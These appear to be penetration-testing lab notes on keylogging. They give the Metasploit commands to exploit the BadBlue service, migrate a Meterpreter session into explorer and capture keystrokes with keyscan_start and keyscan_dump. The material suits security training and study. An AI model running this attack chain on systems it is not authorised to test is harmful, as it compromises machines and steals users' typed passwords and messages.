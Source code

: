 ## Keylogging
* The process of recording or capturing the keystrokes entered on the target.
* Plenty of programs and USB devices are used to accomplish this.
* **How**
* Using meterpreter --> capture --> Download to our local system.
* Safer than techniques like exploiting RDP.

* PRACTICAL
* Repeat steps till db_nmap
* `use exploit/windows/http/badblue_passthru`
* `set target [press tab and look for EE option]`
* `run`
* Inside the meterpreter session:
* `pgrep explorer` --> Keylogging technique seem to work with "explorer" process conveniently
* `migrate [ID]` --> Will give a 64-bit meterpreter session
* ***
* Commands for keylogging
    *   keyboard_send  Send keystrokes
    *   keyevent       Send key events
    *   keyscan_dump   Dump the keystroke buffer
    *   keyscan_start  Start capturing keystrokes
    *   keyscan_stop   Stop capturing keystrokes
